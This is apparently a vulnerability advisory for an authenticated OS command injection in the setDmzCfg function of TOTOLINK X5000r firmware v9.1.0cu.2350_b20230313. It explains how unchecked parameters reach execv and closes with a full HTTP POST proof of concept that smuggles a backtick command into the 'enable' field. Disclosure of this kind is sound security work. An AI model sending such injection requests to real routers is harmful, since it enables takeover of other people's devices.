

# totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setDmzCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setDmzCfg` (at 0x4111CC), binary /cgi-bin/cstecgi.cgi. The parameter `enable` and `port` are passed to 'Uci_set_str' without any check.

Uci_Set_Str passes the parameter `enable` and `port` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.


## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setDmzCfg", "enable": "`;ls`", "ip": "aaaaa"}
```

